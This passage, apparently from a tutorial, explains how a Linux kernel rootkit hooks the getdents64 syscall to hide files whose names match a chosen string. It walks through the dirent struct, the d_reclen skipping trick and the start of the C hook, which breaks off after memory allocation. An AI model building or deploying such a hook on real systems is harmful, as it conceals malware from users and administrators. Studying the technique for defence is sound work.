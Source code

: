 Each file is stored in a `linux_dirent64` (dirent stands for "directory entry") struct, which is defined as the following:
```c
struct linux_dirent64 {
    u64         d_ino;
    s64         d_off;
    unsigned short      d_reclen;
    unsigned char       d_type;
    char        d_name[];
};
```
We are interested at `d_reclen` which specifies the length of that `linux_dirent64` struct and `d_name` which would be helpful to determine which file to hide.

`d_reclen` is also what the kernel use to determine the next file in the listing. This [example](https://linux.die.net/man/2/getdents64#:~:text=d%20=%20%28struct%20linux_dirent%20*%29%20%28buf%20+%20bpos%29;) is a great demonstration of how `d_reclen` could be use to iterate through every file in the directory.

## Approach
 1. Create a buffer for our defined dirent struct. This is what we will send back to the userspace so they got the modified version of directory listing.
 2. Copy userspace dirent struct into our defined dirent struct. Make sure to use `copy_from_user` to avoid memory issues.
 3. Loop through each file in dirent struct, if the name matches some predefined string (say "rootkit"?), we skip it.
 > Say file B is the one that we want to hide, and file A is the one right before file B in directory listing. We can skip file B by adding `d_reclen` of file B to `d_reclen` of file A! This is because we are iterating through each file by incrementing their own `d_reclen`, hence `d_reclen` of file A now will be large enough that we would jump over file B when iterating.

 > There's also an edge case where file B is the first file in the listing. In this case, we would ***move*** every entries after file B up by using `memmove`. Doing this would overwrite the memory of `struct linux_dirent64` of file B with the ones after file B. We also need to subtract file B `d_reclen` from the total length of the listing.
 4. Copy our defined dirent struct back to the user dirent struct by using `copy_to_user`.
 5. Don't forget to return the final length of our directory listing.

## Implementation Details
I've added comments along with code, which should be descriptive enough:
```c
asmlinkage int hook_getdents64(const struct pt_regs *regs)
{
	// take dirent from userspace out from rsi register
	struct linux_dirent64 __user *user_dirent = (struct linux_dirent64 *)regs->si;
	
	// for skipping entries
	struct linux_dirent64 *previous_entry;
	// for keep track current entry
	struct linux_dirent64 *current_entry;
	// kernel version of dirent, this is what we will modify on and copy back to userspace
	struct linux_dirent64 *new_dirent;
	
	// acts kinda like an index to determine next dirent
	unsigned long offset = 0;
	
	// get the original total length by running the original getdents64 syscall
	int retval = orig_getdents64(regs);


	// allocate same amount of bytes into our new_dirent
	new_dirent = kzalloc(retval, GFP_KERNEL);


```